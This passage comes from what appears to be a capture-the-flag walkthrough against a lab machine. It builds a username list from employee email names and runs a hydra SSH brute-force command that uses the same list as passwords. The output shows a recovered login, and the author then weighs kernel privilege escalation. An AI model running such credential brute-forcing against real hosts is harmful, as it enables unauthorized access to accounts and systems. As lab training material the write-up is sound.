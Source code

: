 If you familiar with corporate working you might notice that every email begins with name and followed by a character which could be the first character of their lastname. You should tweek this list by move that character to the front of their name also to increase possibility to find valid credential.

From email list, possible username are:
```
aadams
adamsa
admin
administrator
banterb
bbanter
bbenedict
benedictb
ccoffee
coffeec
egennieg
elong
genniege
longe
marym
michaelp
mmary
mtwilhel
patrickp
pmichael
ppatrick
root
thompsont
tthompson
twilhelm
webmaster
```


## __Exploit__
Then I will use this as dictionary for both username and password list if I got nothing I will use rockyou.txt as password list. Let's try.
```
hydra -s 22 -v -V -L lists.txt -P lists.txt -e n -t 5 -w 30  ssh://192.168.1.100

...
[22][ssh] host: 192.168.1.100   login: bbanter   password: bbanter
...
```

We got luck here, I tried to enumerate kernel version and got 2.6.16 which could exploit with many vulnerability to escalate my privilege to root. But I noticed that GCC package did not be installed so if I want to exploit it's kernel I have to compile an exploit outside and run it inside our target. So let's try another way first.

* check interactive shell
```
bbanter@slax:/tmp$ cat /etc/shells 
/bin/bash
/bin/ash
```
